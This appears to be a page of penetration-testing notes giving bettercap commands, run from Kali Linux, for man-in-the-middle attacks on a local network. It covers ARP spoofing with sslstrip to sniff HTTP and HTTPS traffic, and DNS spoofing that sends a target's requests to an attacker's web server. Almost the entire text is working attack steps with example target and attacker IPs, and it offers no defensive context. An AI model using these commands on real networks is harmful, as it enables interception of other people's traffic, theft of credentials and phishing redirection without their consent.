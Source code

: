 * In Kali open up a new Terminal window and type the following:&#x20;
  * **#**sudo bettercap&#x20;
* All of the following commands below are to be entered into the bettercap window.&#x20;
  * \#net.probe on&#x20;
  * Wait 30 seconds for it to discover network hosts.&#x20;
  * \#net.probe off&#x20;
  * \#net.show&#x20;
    * This will show you the targets on the network. Pay attention to your target IP.&#x20;
  * set http.proxy.sslstrip true&#x20;
  * set net.sniff.verbose false&#x20;
  * set arp.spoof.targets TARGET\_IP&#x20;
  * My example:&#x20;
    * set arp.spoof.targets 192.168.2.100&#x20;
    * net.sniff on&#x20;
    * http.proxy on&#x20;
    * arp.spoof on&#x20;

### Intercepting HTTPS traffic over the network with Bettercap&#x20;

* In Kali open up a new terminal window and type the following:&#x20;
  * \#sudo bettercap&#x20;
* All the following commands below are to be entered into the bettercap window.&#x20;
* net.probe on&#x20;
* Wait 30 seconds for it to discover network hosts.&#x20;
* net.probe off&#x20;
* net.show&#x20;
* This will show you the targets on the network. Pay attention to your target IP.&#x20;
* set https.proxy.sslstrip true&#x20;
* set net.sniff.verbose false&#x20;
* set arp.spoof.targets TARGET\_IP&#x20;
* My example:&#x20;
  * set arp.spoof.targets 192.168.2.100&#x20;
  * set arp.spoof.internal true&#x20;
  * net.sniff on&#x20;
  * https.proxy on&#x20;
  * arp.spoof on&#x20;

### Re-directing HTTP requests to your webserver over the network with Bettercap&#x20;

* In Kali open up a new Terminal window and type the following:&#x20;
  * \#sudo service apache2 restart&#x20;
  * \#sudo bettercap&#x20;
* All the following commands below are to be entered into the bettercap window.&#x20;
  * net.probe on&#x20;
  * Wait 30 seconds for it to discover network hosts.&#x20;
  * net.probe off&#x20;
  * net.show&#x20;
  * This will show you the targets on the network. Pay attention to your target IP. ◇ set http.proxy.sslstrip true&#x20;
  * set net.sniff.verbose false&#x20;
  * set arp.spoof.targets TARGET\_IP&#x20;
  * My example:&#x20;
    * set arp.spoof.targets 192.168.2.100&#x20;
    * set dns.spoof.domains __&#x20;
    * set dns.spoof.address ATTACKER\_IP&#x20;
  * My example:&#x20;
    * set dns.spoof.address 192.168.2.233&#x20;
    * set dns.spoof.all true&#x20;
    * net.sniff on&#x20;
    * http.proxy on&#x20;
    * arp.spoof on&#x20;
    * dns.spoof on&#x20;